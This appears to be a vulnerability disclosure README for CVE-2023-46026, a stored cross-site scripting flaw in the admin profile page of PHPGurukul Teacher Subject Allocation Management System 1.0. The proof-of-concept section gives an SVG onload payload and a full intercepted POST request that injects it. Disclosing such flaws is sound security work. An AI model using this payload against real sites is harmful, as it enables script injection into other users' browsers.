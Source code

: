 # CVE-2023-46026-PHPGurukul-Teacher-Subject-Allocation-Management-System-1.0-Stored-Cross-Site-Scripting-Vulnerability
+ Exploit Author: ersinerenler
# Vendor Homepage
+ https://phpgurukul.com/teacher-subject-allocation-system-using-php-and-mysql
# Software Link
+ https://phpgurukul.com/?sdm_process_download=1&download_id=17645
# Overview
+ PHPGurukul Teacher Subject Allocation Management System is susceptible to a critical security vulnerability involving Stored Cross-Site Scripting (XSS) through 'adminname' and 'email' parameters in the /profile.php file. The application fails to adequately sanitize user-supplied data, allowing attackers to inject malicious scripts into the application. This could lead to the execution of arbitrary script code in the browsers of unsuspecting users, potentially compromising their security and privacy within the context of the affected site.
# Vulnerability Details
+ CVE ID: CVE-2023-46026
+ Affected Version: PHPGurukul Teacher Subject Allocation Management System V1.0
+ Vulnerable File: profile.php
+ Parameters: adminname, email
+ Attack Type: local
# References:
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-46026
+ https://nvd.nist.gov/vuln/detail/CVE-2023-46026
# Description
+ The parameters 'adminname' and 'email' in the profile.php file of PHPGurukul Teacher Subject Allocation Management System V1.0 are susceptible to Stored Cross-Site Scripting (XSS). This vulnerability arises due to insufficient input validation and sanitation of user-supplied data. An attacker can exploit this weakness by injecting malicious scripts into these parameters, which, when stored on the server, may be executed when other users view the affected user's profile.
# Proof of Concept (PoC) : 
+ Go to the admin profile page and click to Submit button to update
+ Intercept the POST request to profile.php via Burp Suite
+ Inject the payload to the vulnerable parameters
+ Payload: `"><svg/onload=alert(document.domain)>`
+ Example request for `adminname` parameter
```
POST /Tsas/admin/profile.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 91
Origin: http://localhost
Connection: close
Referer: http://localhost/Tsas/admin/profile.php
Cookie: PHPSESSID=<some-cookie-value>
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

adminname=SuperAdmin"><svg/onload=alert(document.domain)>&username=admin&email=admin%40gmail.com&mobilenumber=5689784592&submit=
```
+ Go to the profile page and trigger the XSS --> `http://localhost/Tsas/admin/profile.php`
<img width="1447" alt="image" src="https://github.com/ersinerenler/phpgurukul-Teacher-Subject-Allocation-Management-System-1.0/assets/113091631/cbcd8230-be94-46c0-b4b9-3ee73193bbdb">
